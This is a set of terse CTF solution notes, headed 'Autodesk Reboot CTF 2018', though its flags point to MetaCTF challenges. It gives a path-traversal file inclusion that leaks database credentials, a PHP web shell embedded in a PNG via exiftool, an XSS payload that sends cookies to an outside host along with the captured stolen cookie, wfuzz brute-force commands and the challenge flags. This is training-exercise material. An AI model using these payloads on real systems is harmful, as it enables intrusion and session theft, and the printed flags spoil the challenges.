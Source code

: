 ## Autodesk Reboot CTF 2018


# James Town Defense lab

File inclusion:
`http://host1.metaproblems.com:4600/retrieve.php?p=../library.php`

We got:
`$mysqli = new mysqli("host1-mysql-db","jdl","xCVT6ZM6aprbQcU6QUPbhW3pWYpTtwbv","jdl");
mydb = mysql.connector.connect(host="host1-mysql-db", user="jdl", passwd="xCVT6ZM6aprbQcU6QUPbhW3pWYpTtwbv")`

Scratch that, we use this pattern:

`\d{4}(-[A-Z\d]{4}){3}-([A-Z][A-Z]){2}`

`1111-B8B8-B8B8-B8B8-AAAA`

> if_i_just_put_these_under_my_pillow_can_i_learn_by_osmosis

# aaa

http://cse.google.com/cse.js?cx=005703438322411770421:5mgshgrgx2u
http://icmpindustries.com/oRdG43

```VABoAGkAcwAgAGkAcwAgAGEAIABsAG8AbgBnACAAbQBlAHMAcwBhAGcAZQAgAHQAaABhAHQAIABjAG8AbgB0AGEAaQBuAHMAIABzAGUAbgBzAGkAdABpAHYAZQAgAGMAbwBtAHAAYQBuAHkAIABkAGEAdABhAC4AIABPAGgAIABuAG8AIQAgAEkAdAAgAGkAcwAgAGIAZQBpAG4AZwAgAGUAeABmAGkAbABlAGQALgAgAFEAdQBpAGMAawAsACAAaABlAHIAZQAgAGkAcwAgAHQAaABlACAAZgBsAGEAZwA6ACAATQBlAHQAYQBDAFQARgB7AGEAYwB0AG8AcgBzAF8AYgBlAF8AZABhAHQAYQBfAGUAeABmAGkAbABpAG4AZwBfAGkAbgBfAGEAbABsAF8AdABoAGUAXwB3AGEAeQBzAH0A

==> This is a long message that contains sensitive company data. Oh no! It is being exfiled. Quick, here is the flag: MetaCTF{actors_be_data_exfiling_in_all_the_ways}

```

# Betrayed by a friend



wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://host1.metaproblems.com:4400/FUZZ

found 2 urls:
http://eve-server:5000/images
http://eve-server:5000/accounts
http://eve-server:5000/admins

> "flag": "who_can_you_trust_these_days"

# Just my kind of Type

http://host1.metaproblems.com:4800/uploads/profile_images/vTxUddGZFn/111.php.png?cmd=ls%20../../../../../../


`exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){echo "<pre>";$cmd = ($_REQUEST['cmd']);system($cmd);echo "</pre>";} __halt_compiler();?>' 111.png`

> MetaCTF{your_php_enabled_image/png_is_the_content_to_my_type}

# Neighbor Psychic

Upon viewing the source we find:
http://host1.metaproblems.com:4850/app.js

It will reveal this end point:
http://host1.metaproblems.com:4850/guess

By inspecting the Network traffic i can see:
Werkzeug/1.0.1 Python/3.6.9


WFUZZ:
`wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 404 http://host1.metaproblems.com:4850/FUZZ`

it will give the /console path

# Start at the Origin
https://blog.decicorp.metacorp.us/preview_comment.php?id=4XljhdgM9Z1xC6BG

<input type="text" class="form-control mb-3" maxlength="30" name="author" required="">
Change to 100

<script>document.location="https://www.nguyenphuoc.net/ctf/cookie.php?c=" + document.cookie + document.domain</script>

```
IP: 34.236.255.12 | PORT: 51439 | HOST:  |  Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.122 Safari/537.36 | METHOD:  | REF: https://blog.decicorp.metacorp.us/preview_comment.php?id=BQxgh7b9wcrZmltJ |  DATE: Wednesday 29th 2020f April 2020 07:06:08 PM | COOKIE:  c=DECICORP_BLOG=debc55d8c31df8d45070a65c5f49810e 
```

wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 404 FUZZ.google.com

wfuzz -c -z file,./myOutFile.txt --hs incorrect -d "password=FUZZ" http://host1.metaproblems.com:4850/super_secret_page_with_flags

